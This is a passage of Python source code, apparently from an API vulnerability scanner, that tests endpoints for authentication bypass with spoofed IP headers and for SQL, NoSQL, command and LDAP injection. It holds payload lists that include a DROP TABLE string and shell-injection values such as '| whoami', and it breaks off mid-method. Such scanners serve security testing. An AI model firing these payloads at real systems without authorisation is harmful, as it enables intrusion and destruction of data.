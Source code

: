 ```python
                response = self.session.get(urljoin(self.base_url, path))
                if response.status_code == 200:
                    print(f"[+] Found API documentation: {path}")
                    self.parse_api_spec(response.json())
            except:
                continue
    
    def test_authentication_bypass(self):
        """Test for authentication bypass"""
        bypass_techniques = [
            {'header': 'X-Forwarded-For', 'value': '127.0.0.1'},
            {'header': 'X-Real-IP', 'value': '127.0.0.1'},
            {'header': 'X-Originating-IP', 'value': '127.0.0.1'},
            {'header': 'X-Remote-IP', 'value': '127.0.0.1'},
            {'header': 'X-Client-IP', 'value': '127.0.0.1'},
        ]
        
        for endpoint in self.endpoints:
            for technique in bypass_techniques:
                headers = {technique['header']: technique['value']}
                
                try:
                    response = self.session.get(
                        urljoin(self.base_url, endpoint),
                        headers=headers
                    )
                    
                    if response.status_code == 200:
                        self.vulnerabilities.append({
                            'type': 'Authentication Bypass',
                            'endpoint': endpoint,
                            'technique': technique,
                            'severity': 'Critical'
                        })
                        
                except Exception:
                    continue
    
    def test_injection_vulnerabilities(self):
        """Test for injection vulnerabilities in APIs"""
        injection_payloads = {
            'sql': ["'", "' OR '1'='1", "'; DROP TABLE users; --"],
            'nosql': ['{"$where": "1==1"}', '{"$regex": ".*"}'],
            'command': ['; ls', '| whoami', '&& id'],
            'ldap': ['*)(uid=*', '*)(|(uid=*))', '*)(&(uid=*))']
        }
        
        for endpoint in self.endpoints:
            for injection_type, payloads in injection_payloads.items():
                for payload in payloads:
                    # Test in URL parameters
                    test_url = f"{urljoin(self.base_url, endpoint)}?id={payload}"
                    
                    # Test in POST body
                    test_data = json.dumps({'id': payload, 'data': payload})
                    
                    try:
                        # GET request test
                        response = self.session.get(test_url)
                        if self.detect_injection_success(response, injection_type):
                            self.vulnerabilities.append({
                                'type': f'{injection_type.upper()} Injection',
                                'endpoint': endpoint,
```